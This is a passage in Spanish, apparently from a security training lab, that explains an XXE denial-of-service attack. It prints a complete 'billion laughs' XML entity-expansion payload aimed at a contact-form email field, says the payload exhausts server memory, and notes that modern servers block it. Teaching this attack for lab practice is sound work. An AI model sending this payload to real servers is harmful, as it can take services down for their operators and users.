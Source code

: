 Finalmente, un uso común de los ataques XXE está causando una denegación de servicio (DOS) al servidor web de alojamiento, con el uso de la siguiente carga útil:

Código:xml

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">
]>
<root><name></name><tel></tel><email>&a10;</email><message></message></root>
```

Esta carga útil define la`a0`entidad como`DOS`, lo hace referencia en`a1`varias veces, referencias`a1`en`a2`, y así sucesivamente hasta que la memoria del servidor de back-end se agote debido a los bucles de autorreferencia. Sin embargo,`this attack no longer works with modern web servers (e.g., Apache), as they protect against entity self-reference`. Pruébelo contra este ejercicio y vea si funciona.